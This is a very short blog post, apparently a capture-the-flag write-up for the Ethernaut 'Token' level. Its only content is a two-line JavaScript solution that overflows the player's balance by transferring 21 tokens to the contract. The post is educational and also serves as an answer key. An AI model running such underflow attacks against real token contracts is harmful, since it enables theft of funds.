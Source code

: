 +++
title = 'Ethernaut Level 5 - Token'
date = 2024-08-04
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Integer overflow to win'
tags = [ 'writeups' , 'blockchain' ]
+++

```js
await contract.transfer(contract.address, 21);
Number(await contract.balanceOf(player));
```

